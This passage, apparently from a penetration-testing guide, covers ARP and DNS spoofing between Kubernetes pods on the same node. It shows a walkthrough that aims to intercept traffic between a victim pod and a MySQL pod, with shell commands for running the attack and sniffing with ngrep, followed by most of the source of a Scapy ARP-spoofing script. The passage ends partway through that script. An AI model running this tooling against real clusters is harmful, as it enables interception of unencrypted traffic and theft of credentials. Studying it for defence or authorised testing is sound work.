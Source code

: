 Knowing this, and knowing **ARP attacks are possible**, a **pod** in a node is going to be able to **intercept the traffic** between **each pod** in the **subnetwork** and the **bridge** and **modify** the **DNS responses** from the DNS server (**DNS Spoofing**).

Moreover, if the **DNS server** is in the **same node as the attacker**, the attacker can **intercept all the DNS request** of any pod in the cluster (between the DNS server and the bridge) and modify the responses.
{% endhint %}

## ARP Spoofing in pods in the same Node

Our goal is to **steal at least the communication from the ubuntu-victim to the mysql**.

### Scapy

```bash
python3 /tmp/arp_spoof.py
Enter Target IP:172.17.0.10 #ubuntu-victim
Enter Gateway IP:172.17.0.9 #mysql
Target MAC 02:42:ac:11:00:0a
Gateway MAC: 02:42:ac:11:00:09
Sending spoofed ARP responses

# Get another shell
kubectl exec -it ubuntu-attack -- bash
ngrep -d eth0

# Login from ubuntu-victim and mysql and check the unencrypted communication
# interacting with the mysql instance
```

{% code title="arp_spoof.py" %}
```python
#From https://gist.github.com/rbn15/bc054f9a84489dbdfc35d333e3d63c87#file-arpspoofer-py
from scapy.all import *

def getmac(targetip):
	arppacket= Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=targetip)
	targetmac= srp(arppacket, timeout=2 , verbose= False)[0][0][1].hwsrc
	return targetmac

def spoofarpcache(targetip, targetmac, sourceip):
	spoofed= ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
	send(spoofed, verbose= False)

def restorearp(targetip, targetmac, sourceip, sourcemac):
	packet= ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
	send(packet, verbose=False)
	print("ARP Table restored to normal for", targetip)

def main():
	targetip= input("Enter Target IP:")
	gatewayip= input("Enter Gateway IP:")

	try:
		targetmac= getmac(targetip)
		print("Target MAC", targetmac)
	except:
		print("Target machine did not respond to ARP broadcast")
		quit()

	try:
		gatewaymac= getmac(gatewayip)
		print("Gateway MAC:", gatewaymac)
	except:
```